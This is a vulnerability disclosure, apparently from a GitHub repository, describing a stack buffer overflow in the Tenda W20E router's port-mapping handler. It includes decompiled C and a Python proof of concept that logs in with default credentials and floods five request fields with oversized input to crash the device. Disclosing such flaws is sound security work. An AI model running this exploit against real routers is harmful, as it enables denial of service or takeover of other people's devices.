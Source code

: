 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function formSetPortMapping, the content obtained by the program from the parameter "portMappingServer", "portMappingProtocol", "portMappingWan", "porMappingtInternal"
and  "portMappingExternal" are passed to pcVar1, pcVar3, pcVar4, pcVar5, and pcVar6, 
and then the pcVar1, pcVar3, pcVar4, pcVar5, and pcVar6 are directly copied into the sMibValue stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetPortMapping(webs_t wp,char_t *path,char_t *query)

{
  char *pcVar1;
  int iVar2;
  char *pcVar3;
  char *pcVar4;
  char *pcVar5;
  char *pcVar6;
  int iVar7;
  char sNetctlParm [32];
  char sMibName [32];
  char sMibValue [256];
  char_t *pWanPortRange;
  char_t *pLanPortRange;
  char_t *pWanid;
  char_t *pProtocl;
  char_t *pLanIP;
  char_t *pPortMapIndex;
  int iListNum;
  int iPortMapIndex;
  
  memset(sMibValue,0,0x100);

  pcVar1 = websGetVar(wp,"portMappingIndex","");
  iVar2 = atoi(pcVar1);
  if (iVar2 + 1 < 0x15) {
    pcVar1 = websGetVar(wp,"portMappingServer","");
    pcVar3 = websGetVar(wp,"portMappingProtocol","");
    pcVar4 = websGetVar(wp,"portMappingWan","");
    pcVar5 = websGetVar(wp,"porMappingtInternal","");
    pcVar6 = websGetVar(wp,"portMappingExternal","");
    sprintf(sMibValue,"%s;%s;%s;%s;%s;%d",pcVar4,pcVar6,pcVar5,pcVar1,pcVar3,1); //here is overflow
    sprintf(sMibName,"adv.virtualser.list%d",iVar2 + 1);
    SetValue(sMibName,sMibValue);
    GetValue("adv.virtualser.listnum",sMibValue);
    iVar7 = atoi(sMibValue);
    log_debug_print("formSetPortMapping",0x52,2,0x41,"index = %d, listnum = %d",iVar2,iVar7);
  ...
}
```

### * POC
```python
import requests

cmd  = b'portMappingIndex=5&portMappingServer=' + b'A' * 400 
cmd += b'&portMappingProtocol='+ b'A' * 400
cmd += b'&portMappingWan='+ b'A' * 400
cmd += b'&porMappingtInternal=' + b'A' * 400
cmd += b'&portMappingExterna=' + b'A' * 400


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setPortMapping/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
